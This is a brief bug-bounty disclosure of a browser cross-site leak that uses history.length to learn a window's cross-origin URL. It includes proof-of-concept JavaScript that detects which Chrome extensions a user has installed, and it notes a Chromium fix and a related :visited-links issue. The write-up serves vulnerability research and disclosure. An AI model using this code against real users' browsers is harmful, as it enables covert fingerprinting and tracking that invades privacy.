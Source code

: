 ```yaml
---
title: Cross-origin URL detection via "history.length" (Awarded $5000)
---
```


Same URL navigations don't normally increase history.length, So by checking if it increases this allows the opener to check the exact URL of a window.
This was fixed in Chromium for a cross-origin initiator if there's no error, there are currently timing attacks with same document navigations however. <https://chromium-review.googlesource.com/c/chromium/src/+/2983325>

```js
async function isLocation(w, url) {
  w.location = 'about:blank';
  await new Promise((resolve) => setTimeout(resolve, 500));
  let start = w.history.length;
  w.history.back();
  await new Promise((resolve) => setTimeout(resolve, 500));
  w.location = url;
  await new Promise((resolve) => setTimeout(resolve, 500));
  w.location = 'about:blank';
  await new Promise((resolve) => setTimeout(resolve, 500));
  let diff = w.history.length - start;
  w.history.go(-1 - diff);
  return diff === 0;
}

// Invalid extension IDs get set to "chrome-extension://invalid/"
async function hasExtension(id) {
  let w = open('chrome-extension://' + encodeURIComponent(id));
  await new Promise((resolve) => setTimeout(resolve, 500));
  let state = await isLocation(w, 'chrome-extension://invalid/');
  w.close();
  return !state;
}

await hasExtension('aohghmighlieiainnegkcijnfilokakq'); // return true/false
```

Also [40087397 - Eliminate :visited privacy issues once and for all - chromium](https://issues.chromium.org/issues/40087397) still works for some browsers except chromium <https://developer.chrome.com/blog/visited-links>
